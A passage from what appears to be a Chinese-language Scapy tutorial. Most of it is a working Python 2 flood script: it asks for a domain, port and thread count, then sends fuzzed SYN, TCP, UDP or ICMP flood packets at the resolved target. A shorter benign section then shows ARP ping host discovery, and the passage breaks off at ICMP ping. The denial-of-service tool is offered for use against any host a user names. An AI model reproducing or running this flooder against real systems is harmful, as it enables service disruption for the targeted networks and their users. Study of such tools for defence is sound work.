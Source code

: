 ```python
    udp = fuzz(UDP(dport=port))
    send(ip/udp, verbose=0)

def icmpFlood(target):
    ip = fuzz(IP(dst=target))
    icmp = fuzz(ICMP())
    send(ip/icmp, verbose=0)

def option(count, op, ip, port):
    if op == '1':
        for i in range(count):
            threading.Thread(target=synFlood(ip, port)).start()

    elif op == '2':
        for i in range(count):
            threading.Thread(target=tcpFlood(ip, port)).start()

    elif op == '3':
        for i in range(count):
            threading.Thread(target=udpFlood(ip, port)).start()

    elif op == '4':
        for i in range(count):
            threading.Thread(target=icmpFlood(ip)).start()

    else:
        print "Option not valid."
        sys.exit()

def getIP(domainName):
    return socket.gethostbyname(domainName)

if __name__ == '__main__':
    domainName = raw_input('Type the domain name: ')
    port = raw_input('Type the port: ')
    op = raw_input("Select the flood attack type: 1) syn, 2) tcp, 3)udp, 4) icmp ")
    count = raw_input("Select the count: ")
    ip = getIP(domainName)
    option(int(count), op, ip, port)
```

### Ping网络

使用Scapy，我们可以使用不同的协议执行 **ping** 命令。最快的发现本地以太网中的主机的方法是使用ARP：

```python
def arp_ping(host):
    ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=host), timeout=2)
    ans.summary(lambda (s, r): r.sprintf("%Ether.src% %ARP.psrc%"))
```

在其他情况下，我们可以使用ICMP ping:
